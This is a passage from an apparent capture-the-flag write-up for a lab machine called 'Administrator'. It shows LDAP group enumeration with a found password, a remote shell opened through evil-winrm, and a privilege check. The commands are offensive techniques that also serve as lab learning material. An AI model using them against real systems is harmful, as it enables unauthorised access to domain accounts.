 > `Benjamin Brown` is the only member of the `Share Moderators` group. Ok, let's remember (**this is important**).

> Let's also see who is a member of the remote connection group - `Remote Management Users` since there are 3 users there:

```bash

ldapsearch -x -H ldap://administrator.htb -D 'olivia@administrator.htb' -w 'ichliebedich' -b 'DC=administrator,DC=htb' "(cn=Remote Management Users)"

```
<p align="center">
 <img src="./screenshots/member_winrm.png" alt="member_winrm" />
</p>

> `Olivia Johnson` - member of the Remote Users group. We have her credentials, and the port `winrm (5985)` is open.

> Connecting to the system:

```bash

evil-winrm -i administrator.htb -u 'administrator.htb\Olivia' -p 'ichliebedich'

```
```bash

*Evil-WinRM* PS C:\Users\olivia\Documents> whoami
administrator\olivia
*Evil-WinRM* PS C:\Users\olivia\Documents>

```
> Let's list the local users privileges

```bash

C:\Users> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled

```
> Nothing interesting.
